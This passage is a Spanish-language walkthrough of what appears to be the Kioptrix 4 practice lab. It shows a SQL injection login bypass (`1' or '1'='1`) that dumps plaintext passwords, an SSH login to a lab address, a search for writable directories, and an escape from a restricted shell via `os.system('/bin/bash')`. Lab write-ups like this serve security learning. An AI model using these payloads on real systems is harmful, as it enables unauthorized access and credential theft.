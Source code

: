 Con esta respuesta, vemos que quieren saltar el cracter comilla `'`, y que el caracter octothorpe no se considera. es decir que si baipaseamos la escapada de la comilla, podemos obtener algo.

Con las pruebas vemos que la escapada aplica al nombre de usuario, si usamos robert con `1' or '1'='1` y obtenemos esto:
```html
<tr><td width="30">Username</td>
	<td width="464">robert</td>
</tr>
<tr>
    <td width="30">Password</td>
	<td width="464">ADGAdsafdfwt4gadfga==</td>
</tr>
```

También con el usuario `john`, obtuvimos tambien su contraseña:
```html
<tr><td width="30">Username</td>
	<td width="464">john</td>
</tr>
<tr>
    <td width="30">Password</td>
	<td width="464">MyNameIsJohn</td>
</tr>
```

Con esta contraseña, que no esta cifrada aunque lo parezca tenemos acceso, pero limitado:
```python
$ssh robert@192.168.0.69
[...]
robert@192.168.0.69's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
robert:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
```

find / -type d -perm /u=w,g=w,o=w 2>/dev/null

Con este usuario `robert` no obtuvimos nada con la shel restringida, pero es muy sencillo baipasearla.
```python
robert:~$ $(echo "cd /tmp")
robert:~$ echo !$
!$
robert:~$ cd $(echo '/tmp')
*** forbidden syntax -> "cd $(echo '/tmp')"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
robert:~$ echo os.system('/bin/bash')
robert@Kioptrix4:~$
```

